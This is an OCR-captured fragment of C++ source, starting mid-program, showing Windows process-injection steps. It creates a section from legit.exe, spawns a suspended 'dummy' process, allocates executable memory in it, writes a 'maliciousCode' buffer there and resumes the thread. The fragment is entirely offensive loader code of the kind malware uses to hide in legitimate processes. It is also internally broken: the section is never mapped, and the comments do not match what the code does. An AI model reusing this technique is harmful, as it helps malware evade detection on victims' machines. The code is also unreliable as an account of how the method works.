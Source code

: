 ```

    hFile = CreateFile(L"legit.exe", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

    HANDLE hSection;

    if (NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, 0, PAGE_READONLY, SEC_IMAGE, hFile) != STATUS_SUCCESS) {

        std::cerr << "Failed to create section." << std::endl;

        CloseHandle(hFile);

        return 1;

    }

    CloseHandle(hFile);

    // Step 5: Create a process from the section

    PROCESS_INFORMATION pi;

    STARTUPINFO si = { sizeof(si) };

    if (!CreateProcess(NULL, L"dummy", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {

        std::cerr << "Failed to create process." << std::endl;

        CloseHandle(hSection);

        return 1;

    }

    // Step 6: Replace the process memory with the section

    PVOID baseAddress = VirtualAllocEx(pi.hProcess, NULL, strlen(maliciousCode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    if (!baseAddress) {

        std::cerr << "Failed to allocate memory in target process." << std::endl;

        TerminateProcess(pi.hProcess, 0);

        CloseHandle(pi.hThread);

        CloseHandle(pi.hProcess);

        CloseHandle(hSection);

        return 1;

    }

    WriteProcessMemory(pi.hProcess, baseAddress, maliciousCode, strlen(maliciousCode), NULL);

    ResumeThread(pi.hThread);

    // Cleanup

```